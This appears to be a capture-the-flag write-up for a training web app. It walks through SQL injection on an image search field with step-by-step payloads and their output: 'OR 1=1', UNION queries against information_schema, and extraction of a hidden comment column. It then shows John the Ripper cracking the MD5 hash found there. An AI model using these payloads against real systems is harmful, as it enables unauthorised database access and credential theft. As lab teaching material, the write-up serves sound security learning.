 Vulnerability name : SQL Injection

How to defend : Sanitize user input

We go through each starting from 1 and when arriving at 5

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

First we try inputting a single quote to see if an error comes back, as that would
tell us if this search function is vulnerable for an sql injection.
Sadly we get nothing back so some amount of sanitization is taking place.

We'll try something else :

```
5 OR 1=1--
```

and the output is :

```
ID: 5 OR 1=1--
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 5 OR 1=1--
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 5 OR 1=1--
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 5 OR 1=1--
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 5 OR 1=1--
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

which means that it is vulnerable to sql injections !

Now we use another command to see what tables we have access to

```
ID: -1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=DATABASE()--
Title: list_images
Url :
```

We can access the values in list_images, as expected.
So now we do list the values :

```
ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: id
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: url
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: title
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: comment
Url :
```

There is a comment, which is a hidden field normally for the user.
Fecthing the values for the comment gives us :

```
ID: 6 UNION SELECT title, comment FROM list_images--
Title: An image about the NSA !
Url : Nsa

ID: 6 UNION SELECT title, comment FROM list_images--
Title: There is a number..
Url : 42 !

ID: 6 UNION SELECT title, comment FROM list_images--
Title: Google it !
Url : Google

ID: 6 UNION SELECT title, comment FROM list_images--
Title: Earth!
Url : Earth

ID: 6 UNION SELECT title, comment FROM list_images--
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

And we found the flag. Now we just need to decode it using John the Ripper.

```
darklyProject git:(master) ✗ ../john/run/john --format=Raw-MD5 comment
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 22 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2024-11-26 19:24) 0g/s 8564p/s 8564c/s 8564C/s Getflag1905..Getflag1900
Proceeding with wordlist:../john/run/password.lst
Enabling duplicate candidate password suppressor
albatroz         (GetFlag)
1g 0:00:00:00 DONE 2/3 (2024-11-26 19:24) 2.703g/s 645318p/s 645318c/s 645318C/s billy420..sylveste
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

albatroz to sha256 gives us : F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188
